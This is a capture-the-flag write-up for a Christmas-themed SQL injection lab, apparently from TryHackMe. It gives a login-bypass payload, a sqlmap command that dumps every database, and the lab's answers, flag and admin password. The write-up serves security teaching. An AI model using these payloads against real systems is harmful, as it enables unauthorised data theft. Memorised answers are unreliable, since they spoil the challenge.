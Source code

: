 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2851%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%285%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2831%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2846%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2814%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2835%29.png)

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2819%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2847%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%281%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

